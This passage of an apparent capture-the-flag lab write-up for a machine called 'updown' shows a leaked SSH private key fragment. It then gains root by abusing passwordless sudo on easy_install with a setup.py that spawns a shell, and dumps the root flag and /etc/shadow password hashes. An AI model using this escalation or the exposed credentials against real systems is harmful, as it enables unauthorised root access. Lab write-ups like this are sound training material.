 ```bash
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
wCb5o0xFjJbF8PuSasQO7FSW+TIjKH9EV/5Uy7BRCpUngxw30L7altfJ6nLGb2a3ZIi66p
0QY/HBIGREw74gfivt4g+lpPjD23TTMwYuVkr56aoxUIGIX84d/HuDTZL9at5gxCvB3oz5
VkKpZSWCnbuUVqnSFpHytRgjCx5f+inb++AzR4l2/ktrVl6fyiNAAiDs0aurHynsMNUjvO
N8WLHlBgS6IDcmEqhgXXbEmUTY53WdDhSbHZJo0PF2GRCnNQAAAMEAyuRjcawrbEZgEUXW
z3vcoZFjdpU0j9NSGaOyhxMEiFNwmf9xZ96+7xOlcVYoDxelx49LbYDcUq6g2O324qAmRR
RtUPADO3MPlUfI0g8qxqWn1VSiQBlUFpw54GIcuSoD0BronWdjicUP0fzVecjkEQ0hp7gu
gNyFi4s68suDESmL5FCOWUuklrpkNENk7jzjhlzs3gdfU0IRCVpfmiT7LDGwX9YLfsVXtJ
mtpd5SG55TJuGJqXCyeM+U0DBdxsT5AAAAwQDDfs/CULeQUO+2Ij9rWAlKaTEKLkmZjSqB
2d9yJVHHzGPe1DZfRu0nYYonz5bfqoAh2GnYwvIp0h3nzzQo2Svv3/ugRCQwGoFP1zs1aa
ZSESqGN9EfOnUqvQa317rHnO3moDWTnYDbynVJuiQHlDaSCyf+uaZoCMINSG5IOC/4Sj0v
3zga8EzubgwnpU7r9hN2jWboCCIOeDtvXFv08KT8pFDCCA+sMa5uoWQlBqmsOWCLvtaOWe
N4jA+ppn1+3e0AAAASZGV2ZWxvcGVyQHNpdGVpc3VwAQ==
-----END OPENSSH PRIVATE KEY-----
```

---------------

# ROOT
### Step 1
Running `sudo -l` shows us the privilege escalation vector:
```bash
developer@updown:/dev/shm$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Looking up _easy_install_ on [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/) we get the syntax to instantly spawn a root shell.

```bash
developer@updown:/dev/shm$ TF=$(mktemp -d)
developer@updown:/dev/shm$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:/dev/shm$ sudo /usr/local/bin/easy_install $TF
WARNING: The easy_install command is deprecated and will be removed in a future version.
Processing tmp.i7LFwunRkU
Writing /tmp/tmp.i7LFwunRkU/setup.cfg
Running setup.py -q bdist_egg --dist-dir /tmp/tmp.i7LFwunRkU/egg-dist-tmp-2bXqH_
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
72fa86fbc9173578b5df7f17dd9d3933

# cat /etc/shadow 
root:$6$35UwqDmGM31K3z1O$EV0yHaLbvEqQ1YfxHOl4fMFHnR0O0Lo7RSnFGpYdfUwBmec0/5JWenL6GLivYgeka8Z4XyYW2UhWOV5UOdK0w.:19165:0:99999:7:::
developer:$6$LkPh3nNMEVO.zmIc$I/j67KSo1n7pR.fzcMfH/hc/8EYISX8JUtDpoc7iMIiYEhX4bgVXPV4L6Gam3AvxMd46wh5XTulsxbpy9ezLf/:19165:0:99999:7:::
```
